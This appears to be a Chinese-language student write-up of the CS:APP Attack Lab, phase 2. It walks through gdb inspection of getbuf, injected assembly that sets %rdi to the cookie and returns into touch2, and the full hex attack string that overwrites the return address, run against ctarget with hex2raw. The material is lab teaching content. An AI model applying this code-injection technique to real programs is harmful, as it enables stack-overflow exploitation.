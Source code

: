```shell
(gdb) break getbuf
(gdb) run -q
(gdb) disas
Dump of assembler code for function getbuf:
=> 0x00000000004017a8 <+0>:	sub    $0x28,%rsp
   0x00000000004017ac <+4>:	mov    %rsp,%rdi
   0x00000000004017af <+7>:	callq  0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    $0x1,%eax
   0x00000000004017b9 <+17>:	add    $0x28,%rsp
   0x00000000004017bd <+21>:	retq   
End of assembler dump.
(gdb) print /x $rsp
$1 = 0x5561dca0
(gdb) stepi
14	in buf.c
(gdb) print /x $rsp
$2 = 0x5561dc78
```

![image-20211126105412037](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111261054068.png)

touch2需要接受一个参数，这个参数需要与cookie值相同，函数的第一个参数通过寄存器%rdi传递，同时设置完参数后需要将控制流转移到touch2，查看touch2的开始地址。

![image-20211127190235909](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111271902954.png)

因此汇编代码，将touch2的地址压入栈顶，ret会弹出栈顶元素作为返回地址。

```assembly
movq  $0x59b997fa, %rdi		
pushq $0x4017ec                
ret
```
对汇编代码汇编生成目标文件，对目标代码反汇编，得到指令序列的字节表示
```shell
gcc -c level2.s
objdump -d level2.o > level2.d
```

![image-20211127190828639](https://raw.githubusercontent.com/destiny0118/picgo/master/pic/202111271908668.png)

得到攻击字符串的字节序列：

```
48 c7 c7 fa 97 b9 59 68 ec 17     
40 00 c3 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00			/* 栈顶地址0x5561dc78 */
```

验证

```
./hex2raw < solution2.txt | ./ctarget -q
```
